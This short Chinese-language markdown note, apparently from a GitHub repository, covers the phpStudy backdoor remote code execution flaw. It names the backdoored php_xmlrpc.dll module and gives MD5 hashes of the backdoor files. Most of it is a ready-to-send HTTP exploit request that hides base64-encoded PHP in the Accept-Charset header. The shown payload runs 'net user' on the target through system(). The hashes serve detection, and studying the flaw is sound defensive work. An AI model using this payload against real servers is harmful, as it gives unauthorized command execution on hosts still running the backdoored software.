

# phpStudy RCE
漏洞环境：  
\ext\php_xmlrpc.dll  模块中含有@eval(%s(‘%s’))即可证明存在漏洞  
附后门文件MD5值：  
```
MD5: 0F7AD38E7A9857523DFBCE4BCE43A9E9
MD5: C339482FD2B233FB0A555B629C0EA5D5
```
exp:  
```
GET / HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Connection: close
accept-charset: ZWNobyBzeXN0ZW0oIm5ldCB1c2VyIik7
Accept-Encoding: gzip,deflate
Upgrade-Insecure-Requests: 1
```
accept-charset为rce的base64编码  
```
echo system("net user");-->ZWNobyBzeXN0ZW0oIm5ldCB1c2VyIik7
```

***
检测工具的路径需为phpstudy（小写）  
